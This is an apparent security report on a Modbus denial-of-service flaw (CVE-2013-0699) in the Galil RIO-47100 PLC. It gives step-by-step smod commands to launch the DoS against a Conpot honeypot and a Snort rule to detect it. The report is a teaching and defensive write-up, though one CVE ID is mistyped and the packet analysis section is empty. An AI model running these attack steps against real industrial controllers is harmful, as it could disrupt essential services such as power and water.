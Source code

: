# Overview
In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target. 
This Report provides: 

- Mitigation details for a vulnerability affecting the Galil RIO-47100 “Pocket PLC.”
- Disclosure of exploit runs on ModBus protocol.  
- Simulating an attack scenario against Scada Honeypot (Conpot) 
- Modbus attack diagnostic functions in Wireshark
- Writing IDS rules to detect attack


Researcher Jon Christmas of Solera Networks has identified an improper validation vulnerability in the Galil RIO-47100 PLC, which can result in a loss of availability. Galil has produced an update that mitigates this vulnerability. The researcher has tested this update and validates that it resolves the vulnerability. This vulnerability could be exploited remotely.

---


# Vulnerability Overview

#### Improper Input Validation
The Galil RIO-47100 PLC allows repeated requests to be sent in a single session. By using these repeated requests sent in a single session, an attacker can cause a denial of service of the system.
CVE-2013-06992 has been assigned to this vulnerability. A CVSS v2 base score of 7.1 has been
assigned. This exploit sends multiple function code (read a coil repeated in a single packet) to break the machine.
#### Vulnerability Details 
The Rio-47100 by Galil is a small PLC with an internal RISC based
processor. It communicates using ModBus, or Telnet over Ethernet as well as
having a web server built in that allows a user to issue commands.

##### _Explotability_
This vulnerability could be exploited remotely.
##### _Existence of Exploit_
Known public exploits specifically target this vulnerability.
##### _Difficulty_
An attacker with a medium skill would be able to exploit this vulnerability.

## Affected Produtcs 
The following Galil product is affected:
- Hardware : RIO-47100 PLC by Galil.
- Version : Rio Firmware Prior to 1.1d
- Vendor : [`www.galilmc.com`](www.galilmc.com)

## Impact
Successful exploitation of this vulnerability could allow an attacker to affect the availability for the Galil RIO-47100 PLC. This vulnerabilities other potential disastrous impacts of DoS attacks against SCADA/ICS systems include electrical blackouts, shutdown of water and sewage systems and other essential municipal services.
Impact to individual organizations depends on many factors that are unique to each organization.
## Background
Galil is a US-based company that maintains offices in Rocklin, California. Galil produces motion control products that are distributed globally.
The affected product, RIO-47100 PLC, is a compact PLC system that includes I/O. According to Galil, RIO-47100 PLC is deployed across several sectors including energy, defense industrial base, and agriculture and food. Galil estimates that these products are used primarily in the United States and Europe with a small percentage in Asia.


---
# Exploitation of Vulnerability 
We are going to exploit [CVE-2013-0699](https://nvd.nist.gov/vuln/detail/CVE-2013-0699#match-3087197) in this spesific example. As we mentioned before, with this exploit; attacker can cause a denial of service of the system. 

In order to exploit the vulnerability we need to download [Smod](https://github.com/Joshua1909/smod)
After downloading smod we can run it by typing;
```
cd smod
python smod.py
```

<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.1.png">
</p>
We can see the ModBus Frameworks' modules by typing;

```
show modules
```
<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.2.png">
</p>

```
use /modbus/dos/galilRIO
show options
```
We have checked which parameters our exploit needs to run. This exploit needs; 
`RHOST` = remote host ip address,
`UID` = Unit id,
paramateres.
```
set RHOST <ip>
set UID <uid>
```

After giving the parameters which are wanted we are ready to run it. 
```
exploit
```
<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.5.png">
</p>

As you can see above, dos attack has started.

---

# Packet Analysing


---
# Rules
```
alert tcp any any -> $HOME_NET 502 (
	msg:"MODBUS Inproper input Validation -dos attack-"; 
	flow:to_server,established;
	reference:cve,2013-0699;
	classtype: denial-of-service;
	sid:1;
	content:"|01 00 00 00 01|";
	detection_filter:track by_dst, count 10, seconds 1;)
```
